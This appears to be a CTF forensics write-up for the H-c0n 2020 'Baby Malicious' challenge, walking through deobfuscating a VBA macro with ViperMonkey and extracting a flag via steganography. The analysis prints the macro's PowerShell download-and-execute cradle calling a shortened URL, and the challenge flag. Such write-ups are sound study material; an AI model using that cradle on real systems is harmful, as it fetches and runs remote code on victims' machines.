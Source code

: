 # Forensics
## 👹 Baby Malicious 👹

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/title.png)

I never worked before or heard about **.vba** files, so I started checking the type and format

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/file.png)

As I saw that is an ASCII text, I decided to open the file with **cat**

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/cat.png)

The first impresion was that the text was encrypted, so I searched about [Obfuscation](https://en.wikipedia.org/wiki/Obfuscation_(software)) and I found something perfect for this ocasion.

A tool called [ViperMonkey](https://github.com/decalage2/ViperMonkey).

ViperMonkey is a VBA Emulation engine written in Python, designed to analyze and deobfuscate malicious VBA Macros contained in Microsoft Office files (Word, Excel, PowerPoint, Publisher, etc).

After using the tool I saw the following:

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/vmonkey.png)

There are 3 interesting function calls:

1. | CreateObject      | ['WScript.Shell']         |
2. | Run               | ["powershell.exe -NoLogogoiex ((New-Object Net.WebClient).D0wnloadString('https://bit.ly/2NgCC0O'))",0]
3. | Run               | ly/2NgCC0O'))             |

The next step was visit the url: *https://bit.ly/2NgCC0O*

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/dios.png)

I thought that this is only the first part of the challenge and some stego was involved, so I took a look at the next parameter of the macro.

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/bps.png)

[BPStegano](https://github.com/TapanSoni/BPStegano) is a steganography tool created by students at Rowan University for their graduate cryptography class. 

Once we use the tool with the image found giving 👹 **SALCHICHON** 👹 as password, we get the flag

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/decode.png)

## Flag

H-c0n{5619b327cc5ecce85a7fc99a14a6c5c5}

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/complete.png)
